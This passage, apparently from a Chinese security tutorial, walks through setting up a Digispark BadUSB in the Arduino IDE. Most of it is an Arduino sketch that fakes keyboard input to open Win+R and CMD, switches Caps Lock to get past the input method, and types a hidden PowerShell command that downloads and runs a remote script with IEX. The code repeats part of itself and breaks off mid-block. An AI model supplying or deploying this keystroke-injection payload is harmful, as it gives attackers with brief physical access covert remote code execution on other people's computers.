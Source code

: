 5、打开 Arduino 软件，点击文件中的首选项，附加开发板管理器网址填入：[https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package\_digistump\_index.json](https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json)

6、点击工具中的开发板中的开发板管理器，等待下载索引完成（下载不成功请使用海外代理），搜索并安装“Digistump AVR Boards by Digistump”，安装完成后在开发板中选择 Digispark（Default-16.5mhz）

[![image.png](assets/1698893928-07b1f452d4aca2a3d0f572753067cbf1.png)](https://storage.tttang.com/media/attachment/2023/04/23/23879ece-cbf0-4ed2-add8-61f83d7c4919.png)

7、将以下代码填入 Arduino 代码框中，以实现伪造键盘输出 win+r 打开运行窗口并执行 Powershell 命令：

```plain
void setup(){//初始化 
Keyboard.begin();//开始键盘通讯 
delay(5000);//延时 
Keyboard.press(KEY_LEFT_GUI);//win 键 
delay(500);
Keyboard.press('r');//r 键
delay(500); 
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r'); 
Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
Keyboard.println("CMD");
delay(500);
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN); 
delay(3000);
Keyboard.println("powershell -windowstyle hidden IEX (New-Object Net.WebClient).DownloadString('http://8.8.8.8/main.ps1') ");
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK); 
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯 
Keyboard.begin();//开始键盘通讯 
delay(5000);//延时 
Keyboard.press(KEY_LEFT_GUI);//win 键 
delay(500);
Keyboard.press('r');//r 键
delay(500); 
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r'); 
Keyboard.release(KEY_CAPS_LOCK);
delay(500);
Keyboard.println("CMD");
delay(500);
Keyboard.press(KEY_RETURN); 
Keyboard.release(KEY_RETURN); 
delay(3000);
```